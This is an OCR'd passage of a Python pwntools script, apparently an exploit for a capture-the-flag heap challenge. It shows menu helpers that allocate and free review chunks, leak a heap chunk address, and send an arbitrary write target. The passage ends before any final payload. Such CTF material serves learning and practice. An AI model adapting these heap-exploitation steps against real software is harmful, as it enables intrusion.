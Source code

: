 ```python
	students[student_num] = 1
	chunk_addr[student_num] = 'unknown'
	student_num += 1

def give_score():
	assert(current_role == 0)
	io.sendlineafter(b'choice>> ', b'2')
	io.recvuntil(b'marking testing papers.....\n')
	sid = 0
	while True:
		s = io.recvuntil(b'\n', drop=True)
		if s == b'finish':
			break
		elif b'score' in s:
			sid = s[14] - 0x30
			scores[sid] = int(s[29:].decode(), 10)
		else:
			scores[sid] -= 10
			if scores[sid] < 0:
				scores[sid] += 256
	
def write_review(sid, size, comment, bytes=False, enter=True):
	assert(current_role == 0 and students[sid] == 1)
	io.sendlineafter(b'choice>> ', b'3')
	io.sendlineafter(b'which one? > ', str(sid).encode())
	if reviews[sid] is None:
		io.sendlineafter(b'please input the size of comment: ', str(size).encode())
	if enter:
		if not bytes:
			io.sendlineafter(b'enter your comment:', comment.encode())
		else:
			io.sendlineafter(b'enter your comment:', comment)
	else:
		if not bytes:
			io.sendafter(b'enter your comment:', comment.encode())
		else:
			io.sendafter(b'enter your comment:', comment)
	reviews[sid] = comment

def call_parent(sid):
	global student_num
	assert(current_role == 0 and students[sid] == 1)
	io.sendlineafter(b'choice>> ', b'4')
	io.sendlineafter(b'which student id to choose?', str(sid).encode())
	students[sid] = 2
	reviews[sid] = None
	student_num -= 1

def change_role(role):
	global current_role
	io.sendlineafter(b'choice>> ', b'5')
	io.sendlineafter(b'role: <0.teacher/1.student>: ', str(role).encode())
	current_role = role

def check_review(address, offset=True):
	assert(current_role == 1)
	io.sendlineafter(b'choice>> ', b'2')
	if io.recv(4) == b'Good':
		c = chunk_addr[current_sid] = int(io.recvuntil(b'add', drop=True)[-13:].decode(), 16)
		chunk_addr[current_sid] -= 0x10		# get the address of chunk head instead of writable head
		io.sendlineafter(b'wherever you want! addr: ', str((c + address) * 10).encode())

```